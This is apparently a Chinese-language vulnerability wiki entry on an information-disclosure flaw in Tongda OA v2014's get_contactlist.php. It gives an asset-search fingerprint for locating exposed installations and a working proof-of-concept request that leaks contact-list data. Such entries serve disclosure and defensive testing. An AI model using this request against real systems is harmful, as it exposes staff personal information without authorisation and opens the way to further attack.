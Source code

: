 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

<a-checkbox checked>通达OA v2014</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

版本信息

![img](/assets/PeiQi-Wiki/img/1645975969411-bebd5aae-61d9-427d-bde9-bc31c1375ec3.png)

验证POC

```javascript
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![img](/assets/PeiQi-Wiki/img/1645975996620-255bce78-f9e5-4542-a2cc-4ba7b35fb50e.png)